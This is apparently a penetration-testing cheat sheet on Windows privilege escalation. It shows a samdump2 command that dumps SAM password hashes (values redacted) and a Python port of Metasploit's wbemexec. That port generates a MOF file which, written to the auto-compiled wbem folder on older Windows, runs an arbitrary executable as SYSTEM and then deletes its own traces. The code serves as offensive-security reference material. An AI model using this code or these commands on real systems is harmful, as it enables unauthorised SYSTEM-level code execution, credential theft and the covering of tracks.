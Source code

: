# Privilege Escalation

## SAM File

```bash
root@kali:/tmp# samdump2 System SAM
Administrator:500:REDACTED:REDACTED:::
*disabled* Guest:501:REDACTED:REDACTED:::
*disabled* HelpAssistant:1000:REDACTED:REDACTED:::
*disabled* SUPPORT_388945a0:1002:REDACTED:REDACTED:::
```

## MOF Files

These are useful in the event of an arbitrary read/write on the file system as a SYSTEM User.  For this to work the OS must be XP or lower.  In effect, a MOF file written to `%SystemRoot%\System32\wbem\mof\`, will be compiled automatically by the OS, and allows arbitrary code execution.  A good overview of MOF files themselves is [Playing with MOF files on Windows, for fun & profit](http://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html).

To check for compilation success/failure, look for the file within `%SystemRoot%\System32\wbem\mof\good\`and `%SystemRoot%\System32\wbem\mof\bad\` respectively.

Below is a python version of metasploit's [wbemexec.rb](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbemexec.rb) for executing a file in the System32 folder.

```python
def genMof(mofName, exe):
    classname = str(randint(0, 9999))
    mof = """#pragma namespace("\\\\\\\\.\\\\root\\\\cimv2")
class MyClass{class}
{
      [key] string Name;
};
class ActiveScriptEventConsumer : __EventConsumer
{
     [key] string Name;
      [not_null] string ScriptingEngine;
      string ScriptFileName;
      [template] string ScriptText;
  uint32 KillTimeout;
};
instance of __Win32Provider as $P
{
    Name  = "ActiveScriptEventConsumer";
    CLSID = "{266c72e7-62e8-11d1-ad89-00c04fd8fdff}";
    PerUserInitialization = TRUE;
};
instance of __EventConsumerProviderRegistration
{
  Provider = $P;
  ConsumerClassNames = {"ActiveScriptEventConsumer"};
};
Instance of ActiveScriptEventConsumer as $cons
{
  Name = "ASEC";
  ScriptingEngine = "JScript";
  ScriptText = "\\ntry {var s = new ActiveXObject(\\"Wscript.Shell\\");\\ns.Run(\\"{exename}\\");} catch (err) {};\\nsv = GetObject(\\"winmgmts:root\\\\\\\\cimv2\\");try {sv.Delete(\\"MyClass{class}\\");} catch (err) {};try {sv.Delete(\\"__EventFilter.Name='instfilt'\\");} catch (err) {};try {sv.Delete(\\"ActiveScriptEventConsumer.Name='ASEC'\\");} catch(err) {};";
};
Instance of ActiveScriptEventConsumer as $cons2
{
  Name = "qndASEC";
  ScriptingEngine = "JScript";
  ScriptText = "\\nvar objfs = new ActiveXObject(\\"Scripting.FileSystemObject\\");\\ntry {var f1 = objfs.GetFile(\\"wbem\\\\\\\\mof\\\\\\\\good\\\\\\\\{mofname}\\");\\nf1.Delete(true);} catch(err) {};\\ntry {\\nvar f2 = objfs.GetFile(\\"{exename}\\");\\nf2.Delete(true);\\nvar s = GetObject(\\"winmgmts:root\\\\\\\\cimv2\\");s.Delete(\\"__EventFilter.Name='qndfilt'\\");s.Delete(\\"ActiveScriptEventConsumer.Name='qndASEC'\\");\\n} catch(err) {};";
};
instance of __EventFilter as $Filt
{
  Name = "instfilt";
  Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \\"MyClass{class}\\"";
  QueryLanguage = "WQL";
};
instance of __EventFilter as $Filt2
{
  Name = "qndfilt";
  Query = "SELECT * FROM __InstanceDeletionEvent WITHIN 1 WHERE TargetInstance ISA \\"Win32_Process\\" AND TargetInstance.Name = \\"{exename}\\"";
  QueryLanguage = "WQL";
};
instance of __FilterToConsumerBinding as $bind
{
  Consumer = $cons;
  Filter = $Filt;
};
instance of __FilterToConsumerBinding as $bind2
{
  Consumer = $cons2;
  Filter = $Filt2;
};
instance of MyClass{class} as $MyClass
{
  Name = "ClassConsumer";
};"""
    mof = sub('{class}', classname, mof)
    mof = sub('{exename}', exe, mof)
    mof = sub('{mofname}', mofName, mof)
    return mof
```

#### References

[Playing with MOF files on Windows, for fun & profit](http://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html)  
[How to use WbemExec for a write privilege attack on Windows](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-WbemExec-for-a-write-privilege-attack-on-Windows)  
[https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbemexec.rb](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbemexec.rb)



